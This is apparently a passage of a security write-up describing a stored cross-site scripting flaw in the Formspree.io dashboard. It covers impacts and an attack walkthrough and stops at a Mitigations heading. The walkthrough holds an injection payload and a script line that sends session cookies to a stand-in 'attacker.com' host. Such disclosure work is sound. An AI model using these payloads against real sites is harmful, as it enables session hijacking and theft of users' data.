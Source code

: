     - The JavaScript payload can perform actions such as:
        - Stealing session cookies: `document.cookie`
        - Sending HTTP requests to other endpoints to exfiltrate data
        - Executing further malicious scripts
        - Manipulating the dashboard or performing actions on behalf of the logged-in user

#### Potential Impacts:

1. **Session Hijacking:**
    
    - The attacker can steal the session cookie of the Formspree.io dashboard user and impersonate them.
    - This can lead to unauthorized access to sensitive information or administrative functions.
2. **Data Theft:**
    
    - The attacker can access and steal data from the Formspree.io dashboard, including other form submissions.
3. **Phishing and Social Engineering:**
    
    - The attacker can use the stolen session to send phishing messages to other users or perform social engineering attacks.
4. **Further Exploitation:**
    
    - The attacker can inject additional payloads to spread the attack within the organization, potentially compromising more systems or data.

### Example Attack Walkthrough:

1. **Submission with Payload:**
    
    - The attacker fills out the form on `biocorellc.com` with the payload: `'); alert(document.cookie); //` in the `message` field.
    - This payload is encoded and submitted to Formspree.io.
2. **Interception and Modification:**
    
    - Using a tool like Burp Suite, the attacker intercepts the form submission request and ensures the payload is correctly formatted and injected.
3. **Dashboard Rendering:**
    
    - When the form owner logs into Formspree.io and views the submission, the payload is executed.
    - An alert box displaying `document.cookie` appears, indicating the payload execution.
4. **Cookie Theft:**
    
    - Instead of a simple alert, the payload can be modified to send the cookie to an attacker-controlled server:
        
        javascript
        
        Copy code
        
        `<script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>`
        
5. **Session Hijack:**
    
    - The attacker uses the stolen session cookie to access the Formspree.io dashboard without authentication.

### Mitigations:
